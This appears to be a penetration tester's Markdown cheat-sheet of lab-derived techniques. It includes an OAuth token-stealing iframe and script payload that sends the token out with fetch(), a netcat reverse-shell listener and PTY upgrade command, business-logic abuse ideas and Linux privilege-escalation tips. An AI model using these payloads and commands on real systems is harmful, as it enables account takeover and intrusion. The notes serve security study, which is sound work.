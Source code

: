 - Steal token via comments example from portswigger.

```html
<iframe src="https://oauth-ac5b1f091ebc87a7c0231e43020600b9.web-security-academy.net/auth?client_id=flf29axxxdwj96jjj8qi0&redirect_uri=https://ac441fd31e7c8793c0611e60007e0029.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>

<script>
  window.addEventListener('message', function(e) {
    fetch("/" + encodeURIComponent(e.data.data))
  }, false)
</script> 
```

## Spring boot

- White Label error page means its spring boot try /actuator/env [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)

## Business Logic

- Try setting values to negative then add positive value = free stuff?
- Try reaching max int value 2,147,483,647
- Check registrations for example email characters limited to 255 [PortSwigger Lab](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input)
- does change email function send confirmation email
- delete parameters? example in forgot password function delete current password?
- coupon codes? tried sending same code via repeater. alternate two codes.


## Better PTY?

- `stty raw -echo` always fails for me instead use `rlwrap -car nc -lvnp 9001` then use the usual `python3 -c 'import pty;pty.spawn("/bin/bash");'`
  - Now you have clear autocomplete and everything!


## Privesc Stuff

### Linux

- linux exploit suggester.sh
- Sudo rights on a file?
  - Do you own the file? edit.
  - hijack variable **_Path variable Vulnerability_**
- Symlink? Has write permission to something linked to another file? change symlink with `ln -fns /tmp/newlink /var/www/html/itemtolink`

## DNS
